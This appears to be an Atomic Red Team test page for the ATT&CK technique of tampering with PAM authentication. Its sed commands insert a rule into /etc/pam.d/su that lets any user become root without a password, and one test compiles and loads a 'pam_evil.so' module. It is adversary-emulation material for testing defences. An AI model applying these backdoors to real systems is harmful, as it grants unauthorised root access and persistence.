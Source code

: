 # T1556.003 - Modify Authentication Process: Pluggable Authentication Modules
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/003)
<blockquote>Adversaries may modify pluggable authentication modules (PAM) to access user credentials or enable otherwise unwarranted access to accounts. PAM is a modular system of configuration files, libraries, and executable files which guide authentication for many services. The most common authentication module is <code>pam_unix.so</code>, which retrieves, sets, and verifies account authentication information in <code>/etc/passwd</code> and <code>/etc/shadow</code>.(Citation: Apple PAM)(Citation: Man Pam_Unix)(Citation: Red Hat PAM)

Adversaries may modify components of the PAM system to create backdoors. PAM components, such as <code>pam_unix.so</code>, can be patched to accept arbitrary adversary supplied values as legitimate credentials.(Citation: PAM Backdoor)

Malicious modifications to the PAM system may also be abused to steal credentials. Adversaries may infect PAM resources with code to harvest user credentials, since the values exchanged with PAM components may be plain-text since PAM does not store passwords.(Citation: PAM Creds)(Citation: Apple PAM)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Malicious PAM rule](#atomic-test-1---malicious-pam-rule)

- [Atomic Test #2 - Malicious PAM rule (freebsd)](#atomic-test-2---malicious-pam-rule-freebsd)

- [Atomic Test #3 - Malicious PAM module](#atomic-test-3---malicious-pam-module)


<br/>

## Atomic Test #1 - Malicious PAM rule
Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** 4b9dde80-ae22-44b1-a82a-644bf009eb9c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su-l|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient pam_succeed_if.so uid >= 0|
| index | Index where the rule is inserted. | integer | 1|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```





<br/>
<br/>

## Atomic Test #2 - Malicious PAM rule (freebsd)
Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Freebsd


**auto_generated_guid:** b17eacac-282d-4ca8-a240-46602cf863e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient pam_succeed_if.so uid >= 0|
| index | Index where the rule is inserted. | integer | 8|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "" "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "" "/#{pam_rule}/d" #{path_to_pam_conf}
```





<br/>
<br/>

## Atomic Test #3 - Malicious PAM module
Creates a PAM module, inserts a rule to use it, and then tests it.

Upon successful execution, this test will create a PAM module that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** 65208808-3125-4a2e-8389-a0a00e9ab326





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su-l|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient /tmp/pam_evil.so|
| index | Index where the rule is inserted. | integer | 1|
| path_to_pam_module_source | Path to PAM module source code. | path | PathToAtomicsFolder/T1556.003/src/pam_evil.c|
| path_to_pam_module | Path to PAM module object | path | /tmp/pam_evil.so|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```



#### Dependencies:  Run with `sh`!
##### Description: The PAM development library must be installed to build the PAM module
##### Check Prereq Commands:
```sh
if [ -f /usr/include/security/pam_modules.h ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
if [ -n "`which apt-get`" ]; then sudo apt-get -y install libpam0g-dev; elif [ -n "`which yum`" ]; then sudo yum -y install pam-devel; fi
```
##### Description: The PAM module must exist on disk at specified location (#{path_to_pam_module})
##### Check Prereq Commands:
```sh
if [ -f #{path_to_pam_module} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
sudo gcc -shared -fPIC -o #{path_to_pam_module} #{path_to_pam_module_source}
```




<br/>
